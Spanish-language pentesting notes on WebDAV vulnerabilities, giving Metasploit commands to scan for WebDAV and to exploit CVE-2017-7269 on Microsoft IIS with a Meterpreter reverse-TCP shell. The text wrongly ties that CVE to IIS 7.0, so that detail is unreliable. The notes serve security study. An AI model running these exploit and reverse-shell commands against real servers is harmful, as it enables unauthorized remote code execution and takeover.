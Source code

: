 # Vulnerabilidades WebDAV con Metasploit

---

## 1. ¿Qué es WebDAV?

- WebDAV (Web Distributed Authoring and Versioning) es una extensión del protocolo HTTP que permite la gestión remota de archivos en servidores web.
- Puede permitir a atacantes subir, modificar o eliminar archivos si está mal configurado o vulnerable.

---

## 2. Identificación de vulnerabilidades WebDAV

### a) Escaneo básico con Metasploit

- Usa módulos auxiliares para detectar si WebDAV está habilitado y si es vulnerable.

Ejemplo:

```bash
use auxiliary/scanner/http/webdav_scanner
set RHOSTS <IP_objetivo>
set RPORT 80
run
```

- Este módulo escanea y enumera características básicas de WebDAV.

---

## 3. Exploit de WebDAV con Metasploit

### a) Módulo exploit para Microsoft IIS WebDAV

- Ejemplo de módulo para explotar vulnerabilidad en WebDAV de Microsoft IIS 7.0 (CVE-2017-7269):

```bash
use exploit/windows/http/iis_webdav_scstoragepathfromurl
set RHOSTS <IP_objetivo>
set RPORT 80
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT <tu_puerto>
run
```

- Este exploit aprovecha un buffer overflow para ejecutar código remoto.

---

## 4. Configuración de payload

- Selecciona el payload adecuado según el sistema objetivo (Windows, Linux).
- Configura `LHOST` y `LPORT` para que el payload establezca conexión reversa.

---

